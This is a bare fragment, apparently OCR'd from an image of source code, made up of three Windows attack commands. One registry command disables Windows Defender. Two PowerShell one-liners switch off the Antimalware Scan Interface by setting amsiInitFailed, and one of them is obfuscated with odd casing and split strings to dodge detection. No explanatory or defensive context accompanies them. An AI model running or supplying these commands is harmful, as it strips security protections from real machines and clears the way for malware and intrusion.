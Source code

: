 reg add "HKLM\SOFTWARE\Policies\Microsoft\Windows Defender" /v DisableAntiSpyware /t REG_DWORD /d 1 /f
[Ref].Assembly.GetType('System.Management.Automation.AmsiUtils')::amsiInitFailed=$true
sET-ItEM ( 'V'+'aR' + 'IA' + 'BLe:1q' + '2' + '3' ).nAME ('Amsi'+'In'+'it'+'FaIled')  $True

